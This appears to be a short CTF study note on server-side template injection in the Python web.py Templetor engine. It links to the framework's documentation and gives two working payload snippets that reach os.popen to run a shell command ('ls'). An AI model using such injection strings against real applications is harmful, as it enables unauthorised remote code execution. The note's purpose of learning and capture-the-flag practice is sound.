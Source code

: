 title:: CTFWEB/SSTI/web.py

- # 文档
	- https://webpy.org/docs/0.3/templetor.zh-cn
- # RCE
	- ```python
	  import web
	  
	  s = "${__import__('os').popen('ls').read()}"
	  
	  print(web.template.Template(s)())
	  
	  ```
	- ```python
	  import web
	  
	  s = """
	  $code:
	      def f():
	          return __import__("os").popen("ls").read()
	  
	  $f()
	  """
	  
	  print(web.template.Template(s)())
	  
	  ```